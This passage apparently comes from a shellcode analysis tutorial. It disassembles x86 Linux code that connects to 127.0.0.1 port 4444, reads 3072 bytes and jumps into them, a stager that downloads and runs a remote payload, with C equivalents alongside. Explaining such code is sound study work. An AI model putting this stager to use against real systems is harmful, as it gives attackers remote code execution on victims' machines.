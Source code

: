 ```nasm
0000001F  58                pop eax
```

```nasm
                            ; size of the sockaddr struct
00000020  50                push eax

                            ; Pointer to the sockaddr struct
00000021  51                push ecx

                            ; File Descriptor of the Server Socket
00000022  57                push edi

                            ; 2nd argument of socketcall(): pointer to arguments of connect()
00000023  89E1              mov ecx,esp
```

<figcaption class="figure-caption">Based on the manual page of `socketcall`, `ECX` contains a pointer to the arguments for the function called, in this case `SYS_CONNECT`</figcaption>

```nasm
                            ; 1st argument of socketcall(): SYS_CONNECT (EBX = 3)
00000025  43                inc ebx

00000026  CD80              int 0x80
```

The instructions above can be converted into the following C code:

```cpp
struct sockaddr_in client_address;

client_address.sin_family = AF_INET;
inet_aton("127.0.0.1", &amp;client_address.sin_addr);
client_address.sin_port = htons(4444);

connect(fd, (struct sockaddr *)&amp;client_address, sizeof(client_address));
```

After that, data is read from the server:

```nasm
                            ; File Descriptor of the Server Socket
00000028  5B                pop ebx

00000029  99                cdq

                            ; EDX = 0x00000c00 (3072)
0000002A  B60C              mov dh,0xc
```

<figcaption class="figure-caption">Since `connect()` stores `0x0` into `EAX` on success, after `CDQ`, the register `EDX` is zeroed</figcaption>

```nasm
                            ; EAX = 0x3, which is the read syscall
0000002C  B003              mov al,0x3
0000002E  CD80              int 0x80

00000030  FFE1              jmp ecx
```
